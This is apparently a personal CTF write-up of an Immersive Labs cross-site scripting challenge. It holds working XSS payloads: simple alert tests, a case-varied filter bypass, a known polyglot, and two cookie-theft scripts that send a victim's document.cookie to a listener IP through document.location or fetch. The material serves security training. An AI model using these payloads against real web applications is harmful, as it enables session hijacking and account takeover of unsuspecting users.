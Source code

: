 ```yaml
---
date: 2025-03-02
categories: [CTF, ImmersiveLabs]
title: "IML - Cross-Site Scripting: Ep.7 – Demonstrate your Skills"
tags: ['privilege escalation', 'python', 'rce', 'xss', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Cross-Site Scripting Ep.7 – D - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Cross-Site Scripting: Ep.7 – Demonstrate your Skills

- Make two users and log in with one of them

![image1](../resources/bf1c9864ffd44a8482e91cf21757504c.png)


![image2](../resources/965da10ce3de4cb08206b180ac07e031.png)

```java
<script>window.alert(1)</script>
```

![image3](../resources/4e83f2c4d4784e6485d2cc9391d26bca.png)

- This is the Reflected XSS

- For the Stored XSS:

![image4](../resources/bbb7b944ad8343648fe5e7abf262471d.png)


![image5](../resources/3320108f120c44b286a3b8a793ee200d.png)

```java
<script>window.alert("hey")</script>
```

- The same command gets used but this time it gets sent and stored until the victim opens the message


![image6](../resources/10122d593bc440adb0592363c324166a.png)


![image7](../resources/eafa9fbb6ac34a338fcb678e5e7a6301.png)


![image8](../resources/b935bcef4e1e4e18a4f21c515ad16ef5.png)

- This one we need to steal a users token, that we don’t have access to

- Set up Python server

- And send the following to jerry as a message:

```java
<script>document.location="http://10.102.164.154:8080/?cookie="+document.cookie;</script>
```
- Or try:

```java
<script>fetch("http://10.8.31.73:8000/"+document.cookie)</script>
```

![image9](../resources/2d4279c0527943b193730f39899d949e.png)


![image10](../resources/8a22e3c7091943fdb147e6757513045a.png)


![image11](../resources/c4405880582946958c94541bcb8fe1a5.png)
- Some filter evasion is being used


![image12](../resources/86b5fe4da4ec44c4b9879a4d0384c9dd.png)

- Login with the user:

```js
<Script>alert(1)</Script>
```


![image13](../resources/4d80f80af9204e8da3cda0a19d65abf7.png)


![image14](../resources/b35a0140fd544660a5bfb989deaea27e.png)

- Filter evasion


![image15](../resources/def49cd6745b4d1f99189caa12b84c67.png)

- Using a polyglot to get past the filter (bit of a cheating way, instead of using trial and error)

```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert("XSS") )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

![image16](../resources/c0d527b467d54c29862de012ea1c9a3c.png)


![image17](../resources/22996ece1dc74f9da2b1990175591910.png)![image18](../resources/f2c61726ff2940df8e9f18266e77ac00.png)![image19](../resources/8ad3d31a6112462fb0c5f0c1a03f0b83.png)


![image20](../resources/3643c3c909b34b3486b3aecdb4e83c73.png)![image21](../resources/849cbf03293c42f289ae7c8b15c4b94d.png)


